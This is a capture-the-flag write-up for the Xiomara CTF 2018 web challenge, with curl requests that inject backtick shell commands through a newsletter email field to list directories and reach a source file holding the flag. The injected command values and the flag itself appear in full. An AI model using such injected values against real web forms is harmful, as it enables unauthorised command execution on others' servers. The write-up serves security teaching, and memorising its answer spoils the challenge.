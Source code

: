 # Reference

[//]: <> (文章所涉及到的技术点、WriteUp的链接)

* https://www.pwndiary.com/write-ups/xiomara-ctf-2018-flag-generator-software-write-up-web100/
* http://happynote3966.hatenadiary.com/entry/2018/02/28/111943

# Title

[//]: <> (题目)

xiomara doesn’t generate flag anymore. Can you get one?

http://103.5.112.91:5000/

# Content

[//]: <> (WriteUp内容)


Let’s see what’s on the page.

```php
$ curl http://103.5.112.91:5000
<!DOCTYPE HTML>
 
<html>
	<head>
		<title>Xiomara Flag Software</title>
		<meta charset="utf-8" />
		<meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=no" />
		<!--[if lte IE 8]><script src="assets/js/ie/html5shiv.js"></script><![endif]-->
		<link rel="stylesheet" href="assets/css/main.css" />
		<!--[if lte IE 8]><link rel="stylesheet" href="assets/css/ie8.css" /><![endif]-->
		<!--[if lte IE 9]><link rel="stylesheet" href="assets/css/ie9.css" /><![endif]-->
	</head>
	<body>
 
		<!-- Header -->
			<header id="header">
				<h1>Xiomara Flag Generator Software</h1>
				<p>Sorry we currently closed our service. We do not sell flag anymore. Farewell!!<br />
				</p>
<br><br>
 
          <p>You can subscribe to our newsletter below.</p>
			</header>
 
		<!-- Signup Form -->
			<form  method="post" action="email.php">
				<input type="email" name="email" id="email" placeholder="Email Address" />
				<input type="submit" value="Subscribe" />
			</form>
 
		<!-- Footer -->
			
				<ul class="copyright">
					<li>&copy; Xiomera.</li></li>
				</ul>
			</footer>
 
		<!-- Scripts -->
			<!--[if lte IE 8]><script src="assets/js/ie/respond.min.js"></script><![endif]-->
			<!--<script src="assets/js/main.js"></script>-->
 
	</body>
</html>
```

So, we have a subscription form which posts our email to the email.php for newsletter subscription. Let’s submit an email address to see how it works.

```
$$ curl http://103.5.112.91:5000/email.php -d 'email=dummy@mail.com'
Thankyou for subscribing! Your email id is dummy@mail.com
```

It prints back a thank you message which includes our email, interesting. I tried to inject some <script> code as email address but got empty string as response. Then, I decided to try code injection using ` operator.

```
curl http://103.5.112.91:5000/email.php -d 'email=`ls`'
Thankyou for subscribing! Your email id is assets email.php flag images index.html
```

We got a directory listing! Let’s investigate further.
```
$ curl http://103.5.112.91:5000/email.php -d 'email=`file flag`'
Thankyou for subscribing! Your email id is flag: directory
$ curl http://103.5.112.91:5000/email.php -d 'email=`ls flag`'
Thankyou for subscribing! Your email id is generator.c generator.xiomara
```

We have generator.c and generator.xiomara under flag directory. Let’s download and look at the source code.

```
$ wget http://103.5.112.91:5000/flag/generator.c
$ cat generator.c
//This file is not for challenge
 
//Never upload this file in challenge server
 
//Thank you!
 
#include<stdio.h>
void flag()
{
char *p2 = "xiomara{command_injections_are_bad}";
}
void main()
{
flag();
}
```

We found the flag xiomara{command_injections_are_bad}.